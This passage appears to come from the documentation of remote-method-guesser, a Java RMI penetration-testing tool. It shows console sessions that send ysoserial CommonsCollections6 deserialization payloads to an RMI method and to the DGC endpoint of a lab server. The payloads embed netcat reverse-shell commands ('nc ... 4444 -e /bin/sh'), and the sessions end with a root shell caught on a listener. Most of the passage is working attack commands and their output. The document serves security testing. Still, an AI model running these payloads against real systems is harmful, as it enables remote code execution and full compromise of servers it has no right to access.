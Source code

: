 ```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 method CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --signature "String login(java.util.HashMap dummy1)" --bound-name legacy-service
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on RMI endpoint...
[+] 
[+] 	Using non primitive argument type java.util.HashMap on position 0
[+] 	Specified method signature is String login(java.util.HashMap dummy1)
[+] 	
[+] 	Caught ClassNotFoundException during deserialization attack.
[+] 	Server attempted to deserialize dummy class 70ca29163104477ca672e2ec2baa4beb.
[+] 	Deserialization attack probably worked :)

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:45771.
id
uid=0(root) gid=0(root) groups=0(root),
```

#### General Deserialization Attacks

Apart from *remote methods* on the application level, *RMI* endpoints also expose well known *remote methods* that are needed for the internal *RMI communication*.
Whereas modern *RMI servers* apply *deserialization filters* on these *well known remote methods* (*JEP290*), older servers may be vulnerable against *deserialization
attacks* too. *remote-method-guesser* allows to test this by using the ``act``, ``dgc`` and ``reg`` actions, that perform deserialization attacks on the *Activator*, *Distributed
Garbage Collector* (*DGC*) or the *RMI registry* directly. For testing purposes you can use the sufficiently outdated [example server](https://github.com/qtc-de/beanshooter/packages/398561)
from the the [beanshooter repository](https://github.com/qtc-de/beanshooter):

```console
[qtc@kali ~]$ rmg --ssl 172.17.0.2 9010 dgc CommonsCollections6 "nc 172.17.0.1 4444 -e /bin/sh"
[+] Creating ysoserial payload... done.
[+] 
[+] Attempting deserialization attack on DGC endpoint...
[+] 
[+] 	Caught ClassCastException during deserialization attack.
[+] 	Deserialization attack was probably successful :)

[qtc@kali ~]$ nc -vlp 4444
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:52598.
id
uid=0(root) gid=0(root) groups=0(root)
```
